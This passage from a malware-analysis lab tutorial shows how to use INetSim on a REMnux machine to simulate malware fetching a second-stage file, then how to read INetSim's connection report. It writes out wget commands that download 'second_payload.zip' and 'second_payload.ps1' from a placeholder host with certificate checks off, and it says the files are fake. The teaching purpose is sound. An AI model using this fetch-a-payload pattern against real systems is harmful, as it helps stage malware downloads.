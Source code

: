 One usual malware behaviour is downloading another binary or script. We will try to mimic this behaviour by getting another file from INetsim. We can do this via the CLI or browser, but let's use the CLI to make it more realistic. Use this command: `sudo wget https://MACHINE_IP/second_payload.zip --no-check-certificate`.

```bash 
root@MACHINE_IP:~# sudo wget https://MACHINE_IP/second_payload.zip --no-check-certificate
--2024-09-22 22:18:49--  https://MACHINE_IP/second_payload.zip
Connecting to MACHINE_IP:443... connected.
WARNING: cannot verify MACHINE_IP's certificate, issued by \u2018CN=inetsim.org,OU=Internet Simulation services,O=INetSim\u2019:
  Self-signed certificate encountered.
    WARNING: certificate common name \u2018inetsim.org\u2019 doesn't match requested host name \u2018MACHINE_IP\u2019.
HTTP request sent, awaiting response... 200 OK
Length: 258 [text/html]
Saving to: \u2018second_payload.zip\u2019

second_payload.zip  100%[===================>]     258  --.-KB/s    in 0s      

2024-09-22 22:18:49 (14.5 MB/s) - \u2018second_payload.zip\u2019 saved [258/258]
```

You can try downloading another file as well. For example, try downloading **second_payload.ps1** by using the command:`sudo wget https://MACHINE_IP/second_payload.ps1 --no-check-certificate`.

To verify that the files were downloaded, check your root folder. See the sample below.

<img src="./Cybersecurity_101_screenshots/remnux06.jpg" width="800" alt="Screenshot 6"> <br>


All of these are fake files! Try to open the second_payload.ps1. When executed, this will direct you to INetSim's homepage.

What we did here is **mimic a malware's behaviour**, wherein it will try to reach out to a server or URL and then **download a secondary file that may contain another malware**.

### Connection Report

Lastly, go back to your REMnux VM and stop INetSim. By default, it will create a report on its captured connections. This is usually saved in **/var/log/inetsim/report/** directory. You should be able to see something like this.

```bash 
Report written to '/var/log/inetsim/report/report.2594.txt' (14 lines)
=== INetSim main process stopped (PID 2594) ===
```
Read the file using this command sudo cat `/var/log/inetsim/report/report.2594.txt`. This may differ from your machine.
